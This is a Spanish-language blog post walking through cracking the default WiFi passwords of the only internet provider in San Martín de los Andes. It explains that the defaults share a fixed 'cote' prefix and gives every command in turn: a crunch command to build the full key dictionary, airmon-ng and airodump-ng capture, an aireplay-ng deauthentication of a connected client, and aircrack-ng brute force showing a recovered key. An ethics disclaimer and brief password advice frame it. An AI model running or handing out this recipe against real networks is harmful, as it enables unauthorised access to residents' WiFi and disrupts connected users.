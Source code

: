 ```yaml
---
title: "WiFi Cooperativo en la aldea de montaña"
date: 2021-01-13T00:00:00-03:00
author: "bronxi"

draft: false

tags: ["wifi","aircrack","brute force"]
categories: ["wifi","brute foce"]
featuredImage: "/images/wifialdea/wifipass.png"
lightgallery: true

---
```



# WiFi Cooperativo en la aldea de montaña

*Esta prueba se realizó en un entorno controlado con los permisos de los clientes adjudicatarios de los dispositivos involucrados, con el fin único de reconocer el nivel de seguridad de acceso a los dispositivos wifi desde una perspectiva ética de investigación en InfoSec.*

Pasé tres semanas en San Martín de los Andes y noté que las claves WiFi por defecto del único proveedor de Internet tienen un patrón sumamente sencillo. Poseen 8 dígitos y todas comienzan con los mismos cuatro caracteres y los últimos 4 son alfanuméricos aleatorios. Por lo que existen solamente 1679616 posibilidas. Para generar un diccionario con dichas líneas, utilizaré la herramienta crunch.

## Instalar crunch & dictionary
Pueden intalarla en cualquier distribución Debian con el siguiente comando (Kali ya lo trae):

> sudo apt-get install -y crunch


El comando para crear este diccionario es muy sencillo

> crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 -t cote@@@@ -o cotexxxx.txt

El primer 8 es el mínimo de caracteres de las claves y el segundo 8 el máximo de caracteres. Aquí solo necesitamos claves de 8 caracteres.
El string "abcdefghijklmnopqrstuvwxyz0123456789" que le sigue determina los caracteres a utilizar para la porción aleatoria de las claves.
La opción "-t" especifica un patrón para los caracteres aleatorios. En este caso es @, que se trata de minúsculas y también tomará los números que hemos indicado anteriormente. A esto le sigue la estructura del patrón "cote@@@@". Las @s serán los caracteres reemplazados por todas las variantes de la a a la z y del 0 al 9.
La opción "-o" indica la salida. Nombramos el archivo como nos guste.

### __Podemos decir que este diccionario contiene todas las claves por defecto de la ciudad__ ###


El siguiente paso es conseguir el archivo que contenga el handshake cifrado de la red WiFi. Para ello utilizamos aircrack-ng.

## Instalar aircrack
Para instalarlo en cualquier versión Debian (Kali también lo trae):

> sudo apt install aircrack-ng

## Our WiFi Interface

Nos fijamos el nombre de nuestra placa con ifconfig

> ifconfig
> wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fa80::4g23:98l6:ka0:3436  prefixlen 64  scopeid 0x20<link>
        ether 59:96:1b:95:b0:2d  txqueuelen 1000  (Ethernet)
        RX packets 275495  bytes 308923532 (308.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 103650  bytes 21966607 (21.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


Antes de comenzar realizamos un check kill para evitar cualquier conflicto.

> sudo airmon-ng check kill


## Monitor Mode

Luego ponemos nuestra placa wifi en modo monitos:

> sudo airmon-ng start wlan0

## Redes WiFi en nuestro aire
Escaneamos las redes:

> sudo airodump-ng start wlan0mon

## Escuchando por un handshake
Una vez elegido el accesspoint al que queremos acceder, con ctrl + c detenemos el escaneo y nos pondremos a la escucha del accesspoint seleccionado:

> sudo airodump-ng -c 6 -b 00:01:12:56:32:56 -w nombredelarchivocondatosescuchados wlan0mon

Acá "-w" indica el nombre del archivo en el que se guardarán los datos capturados. "-c" indica en canal por el que trabaja el accesspoint. "-b" indica la MAC del accesspoint (BSSID). Por último, la interface que usamos, en este caso "wlan0mon". Al darle enter comenzará a escuchar ese accesspoint.

Veremos la cantidad de paquetes capturados y perdidos. En al parte inferior de la terminal, se observan los clientes conectados al accesspoint, elegimos uno para deantenticar y obtener el handshake (paquete que contiene la clave WiFi encriptada).

## Deaunenticar al cliente
Mientras el proceso anterior continúa corriendo, en otra terminal realizamos una deautenticación del cliente con los datos copiados. Es decir, del BSSID (accesspoint) y de una STATION (cliente).

> aireplay-ng -0 10 -a 00:01:12:56:32:56 -c 00:00:10:A0:05:06 wlan0mon

Acá "-0" indica la orden deauntenticar. "-a" la MAC del accesspoint. "-c" la MAC del cliente a deauntenticar. Por último, la interfaz que utilizamos en modo monitor, en este caso "wlan0mon".

Al conseguir el handshake, se notificará en la terminal que está escuchando, abierta en el punto *Escuchando por un handshake* Se obersva el mensaje en la parte superior derecha.

Verán algo así:

![Handshake](/images/wifialdea/handshake.png "Handshake")

## Brute force final
Por último, utilizamos fuerza bruta para probar todas las claves del diccionario sobre el archivo que contiene el handshake con el siguiente comando:

> sudo aircrack-ng -w cotexxxx.txt -b 00:01:12:56:32:56 nombredelarchivocondatosescuchados.cap

> KEY FOUND! [ cotefr33 ]

## Recomendaciones:
- Generar claves de diez caracteres en la que todos sus caracteres sean aleatorios.
- Si sos user, cambiá tu clave por defecto.

¡Disfruten el lago, la montaña y un WiFi seguro!
